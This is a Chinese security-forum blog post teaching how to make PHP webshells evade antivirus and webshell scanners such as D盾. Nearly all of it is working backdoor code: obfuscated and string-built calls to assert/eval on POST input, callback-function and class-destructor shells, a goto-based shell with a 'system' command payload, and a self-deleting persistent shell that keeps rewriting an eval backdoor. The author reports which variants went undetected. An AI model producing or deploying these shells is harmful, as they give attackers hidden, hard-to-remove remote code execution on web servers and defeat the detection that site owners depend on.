# 初探webshell免杀的艺术-先知社区

> **来源**: https://xz.aliyun.com/news/16405  
> **文章ID**: 16405

---

今天心血来潮，学习一下php的bypass

## 混淆加密

<https://splitline.github.io/PHPFuck/>

```
<?php
error_reporting(0);
((([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([].[])[([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]))(...((([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([].[])[([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]))((([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).((([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]).(([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])).(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])))() ?>

```








## php特性

### 字符串拼接

```
<?php
$a = implode("",['p','h','p','i','n','f','o','(',')']);
assert($a);

```







接下来写个马

```
$a = implode("",["e","v","a","l","(","$","_","P","O","S","T","[","'","a","'","]",")"]);
        assert($a);

```




  
都没报毒

### 替换

```
<?php 
    $a = substr('aa',1).'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']);
?>

```



  
加给反引号

```
<?php
$a=$_POST['x'];
$x=substr('aa',1).'ssert';
$x(`/***123***/`.$a);
?>

```



```
<?php
$a = strtr('abcdet','bcde','sser');
$a($_POST['x']);
?>

```





  
报毒了  
加一个输出进去

```
<?php
$a = strtr('abcdet','bcde','sser');
echo $a;
$a($_POST['x']);
?>

```

  
发现降了一级  
单独替换不好绕过，得配合一些回调函数，后面再说

```
<?php 
    $a = substr_replace("asaaaa","sert",2);
    $a($_POST['x']);
?>

```



### 变量覆盖

使用$$覆盖变量

```
<?php
$x='a'.'s'.'s'.'e'.'r'.'t';
$b='_'.'P'.'O'.'S'.'T';
$c=$$b;
$x($c['x']);
?>

```

  
结合前面的替换函数

```
<?php
$x=substr('aa',1).'s'.'s'.'e'.'r'.'t';
$b='_'.'P'.'O'.'S'.'T';
$c=$$b;
$x($c['x']);
?>

```

  
降了一级

### 传参拼接

```
<?php
$a='a';
$b=$a.$_POST["b"];
$c = $_POST["c"];
$b($c);
?>

```



### base64编码

```
<?php
$x= substr('aa',1).'ssert';
$a=base64_decode($_POST['x']);
$x($a)
?>

```



### rot13参数编码

```
<?php
$x= 'assert';
$a=str_rot13($_POST['x']);
$x($a)
?>

```



### 异或

```
<?php
$x= ('!'^'@').'ssert';
$a=base64_decode($_POST['x']);
$x($a)
?>

```



## 回调函数利用

```
call_user_func(最经典)
call_user_func_array
array_uintersect_assoc
array_map
array_filter
usort/uasort
uksort
array_walk
array_walk_recursive

```

### array\_uintersect\_assoc

用法：

```
array array_uintersect_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func )

```

```
$array1: 第一个数组。
$array2: 第二个数组。
[array $...]: 可选参数，可以有多个数组参与交集运算。
callable $value_compare_func: 用户提供的回调函数，用来比较两个元素的值。
```

payload:

```
<?php
array_uintersect(array($_POST['x']), array(1),'assert');

```




### call\_user\_func()

用法：

```
mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed

```

```
$callback: 必需。要调用的回调函数。可以是字符串形式的函数名、数组形式的对象方法（例如 [object, 'method'] 或者 ['class', 'staticMethod']）、或者是一个匿名函数。
$parameter: 可选。传递给回调函数的参数。你可以传递多个参数，每个参数依次对应回调函数中的参数。
```

```
<?php
call_user_func('assert',$_POST['x']);
?>

```



### array\_map

用法：

```
array array_map ( callable $callback , array $array1 [, array $... ] ) : array

```

```
$callback: 必需。要调用的回调函数，可以是任何有效的可调用PHP实体（如函数名、对象方法或匿名函数）。
$array1: 必需。要处理的第一个数组。
[array $...]: 可选。额外的数组，它们的元素会按顺序与第一个数组的元素一起传递给回调函数。
```

```
<?php
$e = $_REQUEST['a'];
$arr = array($_POST['x'],);
array_map($e, $arr);
?>

```




## 自定义函数

结合前面的绕过姿势来bypass

```
<?php
function out($b){
    return $b;
}
function ey($a){
    $x= ('!'^'@').'ssert';
    return $x($a);
}
function post(){
    return base64_decode($_POST['x']);
}

function run(){
    return out(ey(out(post())));
}

run();

```

  


```
<?php
function out($b){
    return $b;
}
function ey($a){
    $x= substr('aa',1).'ssert';
    return $x($a);
}
function post(){
    return base64_decode($_POST['x']);
}

function run(){
    return out(ey(out(post())));
}

run();

```

  


```
<?php
function out($b){
    return $b;
}
function ey($a){
    $x='a'.'s'.'s'.'e'.'r'.'t';
    return $x($a);
}
function post(){
    return base64_decode($_POST['x']);
}

function run(){
    return out(ey(out(post())));
}

run();

```

  


```
<?php
function out($b){
    return $b;
}
function ey($a){
    $x = substr_replace("asaaaa","sert",2);
    return $x($a);
}
function post(){
    return base64_decode($_POST['x']);
}

function run(){
    return out(ey(out(post())));
}

run();

```

  


到这里就能说明自定义函数，加上之前的绕过手法已经随便过D盾了

## 类+回调函数

```
<?php
class B{

public function __destruct()
{
$B=$_POST['x'];
array_uintersect_assoc(array($B), array(1),'assert');
}

}
$obj = new B();

```


  


### create\_function函数

```
<?php
class B{

public function __destruct()
{
    $b=$this->name;
$a=$_POST['x'];
echo $b;
echo $a;
    $a('', $b);
}
public function __construct($name)
{
    $this->name = $name;
    echo $name;
}

}
$obj = new B($_POST['e']);

```



  


写的都比较简单，师傅们可以再拓展一下

## goto+回调函数

goto介绍：  
它允许代码无条件地跳转到同一个函数、方法或脚本中的另一个标签处继续执行。使用goto可以简化某些类型的控制结构，例如复杂的循环或条件逻辑。

以下是goto语句的一些关键点：

```
标签：goto语句需要指定一个目标标签。标签是任意的标识符后跟冒号（:）。例如，myLabel:定义了一个名为myLabel的标签。
跳转：goto语句后面跟着要跳转到的标签名。当执行到goto语句时，程序会立即跳转到指定的标签处并从那里继续执行。
限制：goto不能用于跳转到不同的函数或方法内部。它只能用于跳转到当前作用域内的标签。
注意事项：滥用goto可能会导致代码难以阅读和维护，因为它打破了正常的控制流。因此，在大多数情况下，应该优先考虑使用更清晰的控制结构如循环和条件语句。
```

举例代码：

```
<?php
goto a;
echo 'Foo';
a:
echo 'Bar';
?>

```

这段代码将输出Bar，而不会输出Foo，因为goto a;语句使得执行直接跳转到了标签a:的位置。  
结合回调函数构造：

```
<?php
// 设置响应头为UTF-8以确保兼容性
header("Content-Type: text/html; charset=utf-8");

// 开启错误报告，在开发环境中应该配置为仅记录错误而不显示给用户
ini_set('display_errors', 0);
error_reporting(E_ALL);

// 定义一个安全处理函数调用的方法
function safeCall($func, $param = null) {
    if (is_callable($func)) {
        return call_user_func($func, $param);
    }
    return false;
}

test4:
// 禁用错误报告（在实际应用中不推荐）
error_reporting(0);

goto test1;

test2:
// 获取并验证参数$m和$o
$m = isset($_GET['m']) ? $_GET['m'] : null;
$o = isset($_GET['o']) ? $_GET['o'] : null;

if ($m === null) {
    print('NO');
} else {
    // 检查是否可以安全地调用$m和$o
    safeCall($m, $l);
    safeCall($o);
}
goto test3;

test1:
// 获取并验证参数$x
$l = isset($_GET['x']) ? $_GET['x'] : '';
if ($l !== '') {
    // 验证base64编码
    $l = base64_decode($l, true);
    if ($l === false) {
        // 如果解码失败，跳转到错误处理部分
        goto error;
    }
} else {
    // 如果$x为空或未提供，跳转到错误处理部分
    goto error;
}
goto test2;

test3:
goto test4;

error:
// 错误处理
echo 'Error: Invalid input.';
exit;
?>

```

payload:

```
?x=aXBjb25maWc=&m=system

```

免杀效果：  




## 不死马

```
<?php
    ignore_user_abort(true);//函数设置与客户机断开是否会终止脚本的执行。这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行
    set_time_limit(0);//函数设置脚本最大执行时间。这里设置为0，即没有时间方面的限制
    unlink(__FILE__);//删除文件本身，以起到隐蔽自身的作用
    $file = 'xxx.php';//写入的后门文件名
    $code='<?php @eval($_POST[a]);?>';//恶意代码
    while(1){//一直循环
        file_put_contents($file,$code);
        usleep(5000);//循环内每隔usleep(5000),写新的后门文件
    }
?>

```

  
code参数那可以自己添加恶意代码  
这个马当你访问以后就会自动删除，开始无限写文件，这根本删不完，再结合前面的bypass是很不错的

## 总结

后门查杀通常是使用正则表达式来进行静态匹配，而绕过大量已有正则的覆盖，就能实现免杀的效果，自己学会变换的核心原理，就能实现真正意义上的免杀。
